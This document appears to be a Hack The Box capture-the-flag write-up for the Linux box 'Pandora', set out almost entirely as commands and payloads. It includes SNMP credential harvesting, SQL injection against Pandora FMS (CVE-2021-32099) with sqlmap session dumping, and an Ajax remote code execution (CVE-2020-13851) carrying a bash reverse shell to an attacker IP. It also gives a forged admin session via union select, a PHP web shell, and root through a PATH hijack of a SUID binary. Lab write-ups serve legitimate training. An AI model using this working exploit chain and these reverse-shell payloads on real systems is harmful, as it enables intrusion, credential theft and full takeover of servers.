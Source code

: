 
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### 🧰 Recon Phase

**Nmap TCP Full Range Scan:**
```bash
nmap -p- --min-rate 10000 10.10.11.136
```

**Nmap Service Version Scan:**
```bash
nmap -p 22,80 -sCV 10.10.11.136
```

**UDP Scan for SNMP:**
```bash
sudo nmap -sU -top-ports=100 10.10.11.136
```

**Feroxbuster Directory Fuzzing:**
```bash
feroxbuster -u http://10.10.11.136
```

**[WFuzz](HTTP) Subdomain Discovery:**
```bash
wfuzz -u http://panda.htb -H "Host: FUZZ.panda.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --hh 33560
```

**[SNMP](SNMP) Enumeration:**
```bash
snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 > snmp-full-bulk
```

**Custom Process Parsing (Python):**
```python
# snmp_processlist.py (dataclass and regex-based parser)
```

---

### 🚪 Initial Access

**Extracted from SNMP:**
```
Username: daniel
Password: HotelBabylon23
```

**[SSH](SSH) into Box:**
```bash
sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
```

**Port Forward Pandora Console:**
```bash
ssh -L 9001:localhost:80 daniel@10.10.11.136
```

---

### 🩷 SQL Injection (CVE-2021-32099)

**Check SQLi Error:**
```
http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id='
```

**Union Test (3 Columns):**
```
?session_id=' union select 1,2,3-- -
```

**SQLMap Discovery:**
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

**Dump Pandora Sessions:**
```bash
sqlmap -D pandora -T tsessions_php --dump --where "data<>''"
```

**Replay Session (Replace Cookie):**
```http
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
```

---

### 🔨 Remote Code Execution (RCE #1: CVE-2020-13851)

**Exploit via Ajax:**
```http
POST /pandora_console/ajax.php
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&response_id=1
```

**Listener:**
```bash
nc -nvlp 443
```

**Shell Upgrade:**
```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
```

---

### 🔨 Remote Code Execution (RCE #2: Admin Upload via SQLi)

**Crafted Payload for Admin Session:**
```url
http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=' union select '1','2','id_usuario|s:5:"admin";' -- a
```

**Upload Webshell (PHP):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execute Reverse Shell via Webshell:**
```bash
curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'
```

---

### 💼 Privilege Escalation to root

**SUID Binary Discovered:**
```bash
find / -perm -4000 -ls 2>/dev/null | grep pandora_backup
```

**Drop SSH Key to Ensure Clean Env:**
```bash
echo "<pub_key>" > /home/matt/.ssh/authorized_keys
```

**Confirm pandora_backup Vulnerability:**
```bash
ltrace pandora_backup
```

**Hijack tar via PATH:**
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH

cat > tar << 'EOF'
#!/bin/bash
bash
EOF

chmod +x tar
pandora_backup
```

**Grab root flag:**
```bash
cat /root/root.txt
```

---

### 🕵️‍♂️ Beyond Root (Apache mpm-itk Sandbox Bypass)

- Apache site runs as `matt` via `AssignUserID` (from `mpm-itk` module).
- This breaks all SUID functionality under Apache execution tree.
- Switching to SSH avoids `mpm-itk` sandbox, allowing SUID execution.

**References:**
- https://mpm-itk.sesse.net/
- https://www.cpanel.net/support/
- https://serverfault.com/questions/1013897/setuid-scripts-fail-under-apache-mpm-itk

---

**Status:**
- User: `daniel` via SNMP creds
- Lateral: `matt` via Pandora FMS SQLi
- Root: `pandora_backup` path hijack

Great practice for SNMP enumeration, SQLi chaining, Apache mod understanding, and privilege escalation via PATH hijack ✨
